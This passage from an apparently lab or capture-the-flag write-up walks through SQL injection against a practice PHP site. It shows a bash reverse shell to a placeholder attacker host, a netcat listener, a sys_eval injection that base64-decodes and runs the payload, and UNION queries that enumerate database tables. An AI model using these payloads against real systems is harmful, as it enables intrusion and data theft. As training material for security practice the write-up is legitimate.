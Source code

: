 ### Getting a Shell
I firstly tried with a *netcat* payload but got blocked, my second idea, since i checked for python was to get a python reverse shell with curl from my machine and than run it but this didn't work as well for some reason.

Third try, time to encode, back to bash i decided to create this payload
```bash
sh -i >& /dev/tcp/ATTACKER_IO/1234 0>&1
```

Then encode it in base64, maybe there is some kind of detection going on. After i can pipe that to to base64 command to decode it and pipe it again to /bin/bash to execute.

So on our machine set up a listener
```bash
nc -lvnp 1234
```

Now send the payload and activate the shell
```http
http://MACHINE_IP:8000/os_sqli.php?debug=true&user=lannister' UNION SELECT null, null, null, null, sys_eval('echo YOUR_BASE64_ENCODED_PAYLOAD |base64 -d | /bin/bash') -- //
```

Finally we got a shell!
We can do the usual job to upgrade it now.

<br>

### Back to Task 5
We also see this hint in task 5: <br>
"You recall that you can query information regarding a database and its schema instead of querying a table, querying (for example) `information_schema.columns where table_schema=database()`. From here, you can grab information like table_name and column_name. Going back to `searchproducts.php`, can you use this knowledge to gather Bitcoin sender address information to unlock these receipts for investigation?"

So we have to retrive a Bitcoin address to unlock the receipts.

We can go back to the search page to do some other recon and find what we need:
```http
http://MACHINE_IP:8000/searchproducts.php
```

I decided to try with a similar version of the proposed command, to see what happens:
```sql
' UNION SELECT * FROM information_schema.columns WHERE table_schema=database() -- //
```

But there is still some work to do on it, as i got the error that the number of columns is not ok, plus there are some other things to change to make it work...
After some tries this one worked:
```sql
' UNION SELECT null, null, null, group_concat(table_name, 0x0a), null FROM information_schema.tables WHERE table_schema = database() -- //
```
where `0x0a` is the hexadecimal value for the ASCII new line character, as it gave an error using `\n`.

